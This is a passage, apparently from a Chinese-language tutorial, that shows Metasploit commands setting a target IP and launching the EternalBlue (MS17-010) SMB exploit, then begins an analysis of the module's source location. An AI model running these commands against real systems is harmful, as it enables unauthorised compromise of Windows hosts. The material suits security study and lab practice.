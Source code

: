 设置远程目标 IP

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.1.15
```

攻击

```plain
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
or
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```

[![](assets/1701606737-d80868fec942b2eb353ef9050090efe0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234559-94dee2d6-7cbb-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17\_010\_eternalblue.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms17_010_eternalblue.rb)

本地，/usr/share/metasploit-framework/modules/exploits/windows/smb/ms17\_010\_eternalblue.rb

*   exploit 函数，攻击入口
